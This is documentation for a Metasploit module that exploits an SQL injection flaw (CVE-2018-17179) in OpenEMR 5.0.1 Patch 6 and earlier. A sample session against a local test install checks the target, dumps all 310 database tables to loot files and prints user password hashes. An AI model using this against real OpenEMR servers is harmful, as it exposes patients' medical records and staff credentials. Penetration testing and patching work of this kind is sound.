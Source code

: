 ## Introduction

This module exploits a SQLi vulnerability found in
OpenEMR version 5.0.1 Patch 6 and lower. The
vulnerability allows the contents of the entire
database (with exception of log and task tables) to be
extracted.

This module saves each table as a `.csv` file in your
loot directory and has been tested with
OpenEMR 5.0.1 (3).


## Author

Will Porter (will.porter@lodestonesecurity.com) from Lodestone Security


## References

https://www.cvedetails.com/cve/CVE-2018-17179/
https://github.com/openemr/openemr/commit/3e22d11c7175c1ebbf3d862545ce6fee18f70617


## Options

```
msf5 auxiliary(sqli/openemr/openemr_sqli_dump) > show options

Module options (auxiliary/sqli/openemr/openemr_sqli_dump):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target address range or CIDR identifier
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /openemr         yes       The base path to the OpenEMR installation
   VHOST                       no        HTTP server virtual host
```

## Usage

This module has both `check` and `run` functions.

```
msf5 > use auxiliary/sqli/openemr/openemr_sqli_dump
msf5 auxiliary(sqli/openemr/openemr_sqli_dump) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 auxiliary(sqli/openemr/openemr_sqli_dump) > check

[*] Trying to detect installed version
[*] 127.0.0.1:80 - The target appears to be vulnerable.
msf5 auxiliary(sqli/openemr/openemr_sqli_dump) > run
[*] Running module against 127.0.0.1

[*] DB Version: 10.3.15-MariaDB-1
[*] Enumerating Tables, this may take a moment...
[*] Identified 310 tables.
[*] Dumping table (1/310): ALL_PLUGINS
[*] Dumping table (2/310): APPLICABLE_ROLES
[*] Dumping table (3/310): CHARACTER_SETS
[*] Dumping table (4/310): CHECK_CONSTRAINTS
[*] Dumping table (5/310): COLLATIONS

...

[*] Dumping table (305/310): medex_recalls
[*] Dumping table (306/310): syndromic_surveillance
[*] Dumping table (307/310): lang_constants
[*] Dumping table (308/310): gacl_acl_seq
[*] Dumping table (309/310): background_services
[*] Dumping table (310/310): geo_country_reference
[*] Dumped all tables to /root/.msf4/loot
[*] Auxiliary module execution completed
msf5 auxiliary(sqli/openemr/openemr_sqli_dump) > exit

root@localhost:/# cd /root/.msf4/loot
root@localhost:~/.msf4/loot# ls -l

-rw-rw-r-- 1 root root   207 Sep 11 01:33 20190911013307_default_127.0.0.1_openemr.ALL_PLUG_118002.bin
-rw-rw-r-- 1 root root    42 Sep 11 01:33 20190911013308_default_127.0.0.1_openemr.APPLICAB_752726.bin
-rw-rw-r-- 1 root root    59 Sep 11 01:33 20190911013309_default_127.0.0.1_openemr.CHARACTE_047422.bin
-rw-rw-r-- 1 root root    77 Sep 11 01:33 20190911013309_default_127.0.0.1_openemr.CHECK_CO_374587.bin
-rw-rw-r-- 1 root root    68 Sep 11 01:33 20190911013310_default_127.0.0.1_openemr.COLLATIO_513047.bin

...

-rw-rw-r-- 1 root root    37 Sep 11 01:47 20190911014756_default_127.0.0.1_openemr.syndromi_322156.bin
-rw-rw-r-- 1 root root     3 Sep 11 01:47 20190911014757_default_127.0.0.1_openemr.gacl_acl_006027.bin
-rw-rw-r-- 1 root root    22 Sep 11 01:47 20190911014757_default_127.0.0.1_openemr.lang_con_639806.bin
-rw-rw-r-- 1 root root   139 Sep 11 01:47 20190911014759_default_127.0.0.1_openemr.backgrou_037369.bin
-rw-rw-r-- 1 root root  5462 Sep 11 01:48 20190911014846_default_127.0.0.1_openemr.geo_coun_668990.bin

root@localhost:~/.msf4/loot# cat 20190911014115_default_127.0.0.1_openemr.users_se_735944.bin
id,username,password,salt,last_update,password_history1,salt_history1,password_history2,salt_history2
1,admin,$2a$05$bxcQWy1ZeIwV2/ScGBQlTOeUVqJo9MdvHuF1mBs4Jo7H0/bFpZoPK,$2a$05$bxcQWy1ZeIwV2/ScGBQlTZ$,2019-08-27 20:07:13,"","","",""
4,johndoemsf,$2a$05$gUWCtnsoqPBbn5zKiasyaOphgJwkA9BySy7LnK3BswyWt0RrLb0Ma,$2a$05$gUWCtnsoqPBbn5zKiasyaQ$,2019-08-29 02:01:28,"","","",""
6,johnderp,$2a$05$nAHQ7japfATDqqgArPImlu5svMG79W1nj1SNBpE7xkEhS42.AvlWq,$2a$05$nAHQ7japfATDqqgArPImlv$,2019-08-29 02:02:32,"","","",""
7,janedoemsf,$2a$05$uv85uBLeAOWQWWl9hHGL0uUy1KZSTgNGbZfJ9o8Lg0ILuSeGCNDbm,$2a$05$uv85uBLeAOWQWWl9hHGL06$,2019-08-29 02:09:37,"","","",""
```
